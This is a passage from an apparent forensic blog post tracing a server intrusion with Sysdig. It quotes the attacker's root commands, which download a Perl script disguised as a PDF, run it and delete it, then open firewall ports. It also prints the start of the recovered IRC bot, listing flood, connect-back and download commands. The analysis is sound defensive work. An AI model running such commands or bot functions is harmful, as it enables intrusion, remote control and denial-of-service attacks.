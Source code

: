 See what’s going on here? The attacker created a hidden directory in `/usr/sbin` with a “clever” `.shm` name, downloaded the sources of a program, and started a build. I downloaded the file at the URL above and it turns out to be the IRC bouncer Muh. In the archive file, I found other interesting things such as the very personal configuration files of the attacker, containing various usernames and passwords and a bunch of IRC channels to automatically join on Undernet. Here’s what he did next:

    06:13:19 root) wget http://xxxxxxxxx.altervista.org/.sloboz.pdf
    06:13:20 root) perl .sloboz.pdf
    06:13:20 root) rm -rf .sloboz.pdf
    06:12:58 root) /sbin/iptables -I INPUT -p tcp --dport 9000 -j ACCEPT
    06:12:58 root) /sbin/iptables -I OUTPUT -p tcp --dport 6667 -j ACCEPT

Nice! A perl script downloaded as a hidden pdf file. Now I was curious to learn more. Unfortunately, when I tried to reach the URL above, the file didn’t exist anymore. Well, Sysdig was able to help me, since it recorded every single I/O operation (and up to 4096 bytes of data for each one, as I specified in the command line). I could just look at the file that wget wrote:

<pre style="font-size: x-small;"><code>$ sysdig -r trace.scap.gz -A -c echo_fds fd.filename=.sloboz.pdf
------ Write 3.89KB to /run/shm/.sloboz.pdf
#!/usr/bin/perl
####################################################################################################################
####################################################################################################################
##  Undernet Perl IrcBot v1.02012 bY DeBiL @RST Security Team   ## [ Help ] #########################################
##      Stealth MultiFunctional IrcBot Writen in Perl          #####################################################
##        Teste on every system with PERL instlled             ##  !u @system                                     ##
##                                                             ##  !u @version                                    ##
##     This is a free program used on your own risk.           ##  !u @channel                                    ##
##        Created for educational purpose only.                ##  !u @flood                                      ##
## I'm not responsible for the illegal use of this program.    ##  !u @utils                                      ##
####################################################################################################################
## [ Channel ] #################### [ Flood ] ################################## [ Utils ] #########################
####################################################################################################################
## !u !join &lt;#channel&gt;          ## !u @udp1 &lt;ip&gt; &lt;port&gt; &lt;time&gt;              ##  !su @conback &lt;ip&gt; &lt;port&gt;          ##
## !u !part &lt;#channel&gt;          ## !u @udp2 &lt;ip&gt; &lt;packet size&gt; &lt;time&gt;       ##  !u @downlod &lt;url+path&gt; &lt;file&gt;     ##